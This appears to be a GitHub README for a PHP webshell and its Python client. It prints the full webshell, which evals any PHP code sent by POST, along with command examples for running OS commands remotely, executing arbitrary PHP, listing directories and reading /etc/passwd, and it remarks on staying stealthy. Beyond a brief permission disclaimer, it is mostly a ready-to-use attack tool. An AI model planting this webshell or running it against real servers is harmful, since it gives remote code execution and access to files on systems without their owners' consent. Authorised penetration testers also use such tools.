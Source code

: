 # PHP Webshell
#### Disclaimers (before we begin)
1. I am not responsible for anything you do with this. Please only use this if you were granted permission by your targets owner!
2. The webshell.php might not work great on windows machines, simply because I haven't tested it. Once I do I will update the code :)

## Let's Begin!
So as you see there are 2 parts to this webshell:
1. webshell.php - The webshell that you upload
2. client.py - The python3 utility you use to interact with webshell.php after it's been uploaded

If you look at `webshell.php` you'll notice it's very simple:
```php
<?php
	if(isset($_POST['payload']))
	{
		eval($_POST['payload']);
	}
?>
```
All it does is eval the php code given to it via a POST request.  
Using this kind of shell is a bit annoying, which is why the `client.py` was created.  
The client side takes care of converting your commands to php code and passing them to the webshell.  
It also has other functions that allow you to interact with the target via the webshell that don't require executing commands on the system  
(opening new processes and executing commands via a webshell isn't very stealthy).  
## Usage
```
python3 client.py --help
```
##### Let's go through some examples  
Executing commands on the remote os:
```sh
# execute an os command via the "system()" php function
python3 client.py -u http://example.com/webshell.php -t exec -p "ls"

# specify php function to use when executing a command
# supported php functions are: system (default), passthru, shell_exec, exec, backticks
python3 client.py -u http://example.com/webshell.php -t exec -p "ls" -e passthru
```
Passing your own php code to be executed:
```sh
# adding the -v (--verify) flag, will show you details of the request that you are about to send to the webshell.
# if you are passing a complex php code, it might be worth going over again before sending (-v is available with all types, not only 'eval')
python3 client.py -u http://example.com/webshell.php -t eval -p 'echo("test")'
```
Get current working directory:
```sh
python3 client.py -u http://example.com/webshell.php -t pwd
```
List files in a given path (like ls):
```sh
# if the given path is not a valid directory the webshell will tell you
# this lists hidden files/directories as well
python3 client.py -u http://example.com/webshell.php -t dir -p "/home/user/"
```
Read file contents:
```sh
# you can change the name of the parameter that the webshell uses ("payload") before uploading it to whatever you want ("cmd" for example) and then use --post-param to specify the parameter.
# you can also change the `DEFAULT_POST_PARAM` parameter in `client.py` if you don't want to pass it as an argument everytime
python3 client.py -u http://example.com/webshell.php -t cat -p "/etc/passwd" --post-param "cmd"
```
## Future Plans
I want to add an upload/download file feature to the webshell, might get to that later  
Enjoy!

